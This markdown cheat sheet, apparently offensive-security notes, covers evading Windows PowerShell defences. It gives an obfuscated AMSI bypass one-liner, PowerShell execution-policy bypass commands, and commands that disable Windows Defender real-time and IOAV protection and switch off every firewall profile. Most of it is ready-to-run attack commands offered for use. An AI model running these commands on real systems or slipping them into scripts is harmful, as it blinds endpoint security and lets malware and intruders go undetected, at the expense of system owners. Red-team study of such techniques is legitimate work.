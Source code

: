 # Evasion

## Powershell Detections
- System-Wide Transcript
- Script Block Logging
- Anti Malwate Scan Interface ( AMSI )
- Constrained Language Mode - Integrated with AppLocker and WDAC (Device Guard)

## AMSI Bypass
- Obfuscate with - https://github.com/danielbohannon/Invoke-Obfuscation
- https://amsi.fail
- https://github.com/aloksaurabh/OffenPowerSh/blob/master/Bypass/Invoke-AlokS-AvBypass.ps1
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Execution Policy
This is not a security feature. It is there to prevent users from accidentally executing scripts.
#### View the Execution Policy
```
Get-ExecutionPolicy
```
#### Bypass the Execution Policy
```
powershell –executionpolicy bypass .\script.ps1
powershell –c <cmd>
powershell –enc
powershell.exe -executionpolicy bypass
```

## Defence Evasion
#### Check the Running status of Windows Defender
```
Get-MpComputerStatus
Get-MpComputerStatus | Select RealTimeProtectionEnabled
```

#### Disable AV Monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPReference -DisableIOAVProtection $true

powershell.exe -c 'Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPReference -DisableIOAVProtection $true'
```

#### Disable Firewall
```
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False 

powershell.exe -c 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False'
```

